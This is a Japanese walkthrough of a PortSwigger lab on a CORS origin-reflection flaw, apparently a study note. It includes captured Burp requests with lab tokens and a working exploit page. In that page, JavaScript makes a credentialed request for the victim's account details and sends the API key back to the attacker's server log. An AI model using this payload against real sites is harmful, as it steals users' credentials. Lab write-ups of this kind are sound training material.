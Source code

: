 # 基本的なオリジン リフレクションによる CORS の脆弱性

以下のハッキングラボを実施します  
https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack  
この Web サイトは、すべてのオリジンを信頼するという点で 安全でない CORS 構成を採用しています。

- 1. Burp Suite を起動し、Proxy タブからブラウザを起動します
- 2. ハッキングラボにアクセスします
- 3. 一般ユーザーでログインします
- 4. ログイン後の取得データを確認します
     ■ リクエスト

```
GET /accountDetails HTTP/2
Host: 0a44000b033cad48856f2e6600160095.web-security-academy.net
Cookie: session=s4T12enpf8QVKPhu8Kt4kyuEqHytmKRj
Sec-Ch-Ua:
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Sec-Ch-Ua-Platform: ""
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a44000b033cad48856f2e6600160095.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8
```

■ レスポンス

```
HTTP/2 200 OK
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 149

{
  "username": "wiener",
  "email": "",
  "apikey": "WrODii5xpLk8xnhbBfVFs2HYTLioExLg",
  "sessions": [
    "s4T12enpf8QVKPhu8Kt4kyuEqHytmKRj"
  ]
}
```

今回は apikey を盗みます

- 5 .上記リクエストを send to repeater します
- 6 .origin ヘッダーを追加して送信します
  ■ レスポンス

```
HTTP/2 200 OK
Access-Control-Allow-Origin: https://example.com
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 149

{
  "username": "wiener",
  "email": "",
  "apikey": "N8n1DhMvJSNerHtJq9gAcZNMxb0OdCtm",
  "sessions": [
    "O3cXVtXTmeYfIlQwivwXeeoGRFu5awaX"
  ]
}
```

- 7. Access-Control-Allow-Origin に Origin ヘッダーで指定した URL が追加されています

- 8. エクスプロイトサーバーに移動し、次の HTML を Body に入力し、YOUR-LAB-ID 独自のラボ URL に置き換えます。

```html
<html>
  <body>
    <script>
      var xhr = new XMLHttpRequest();
      var url = "https://<YOUR-LAB-ID>.web-security-academy.net/accountDetails";

      xhr.onreadystatechange = function () {
        if (xhr.readyState == XMLHttpRequest.DONE) {
          fetch("log?key=" + this.responseText);
        }
      };
      xhr.open("GET", url + "/accountDetails", true);
      xhr.withCredentials = true;
      xhr.send(null);
    </script>
  </body>
</html>
```

- 9. Store→Deliver expoit to victim の順に実行します
- 10. Access log を見ると、被害者の apikey が確認できます

